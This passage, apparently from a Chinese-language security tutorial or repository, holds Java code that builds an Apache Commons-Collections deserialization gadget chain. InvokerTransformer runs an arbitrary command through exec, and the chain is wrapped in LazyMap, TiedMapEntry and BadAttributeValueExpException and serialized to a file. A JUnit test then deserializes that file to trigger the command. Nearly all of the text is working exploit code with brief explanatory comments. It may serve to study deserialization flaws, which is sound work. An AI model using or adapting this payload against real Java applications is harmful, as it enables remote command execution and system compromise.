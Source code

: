 ```java
                        new Object[] {null, new Object[0] }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class },
                        new Object[] { new String[] {commandstring} }
                )
        };
        
        // chainedTransFormer 会调用transform 方法，该方法依次调用转换器数组
        Transformer transformedChain = new ChainedTransformer(transformers);

        final Map lazyMap = LazyMap.decorate(new HashMap(), transformedChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        //利用反射的方式来向对象传参
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);

        File f = new File("temp.bin");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(val);
        out.flush();
        out.close();
    }
}
```

```java
// ExploitTest.java
import lombok.Data;
import org.junit.Test;

import java.io.File;
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class ExploitTest {

    @Data
    class AnyClass{
        private String name;
        private int age;
    }

    @Test
    public void testExploit()throws Exception{
        ObjectInputStream is = new ObjectInputStream(new FileInputStream(new File("temp.bin")));
        AnyClass clazz = (AnyClass) is.readObject();       
    }
}
```

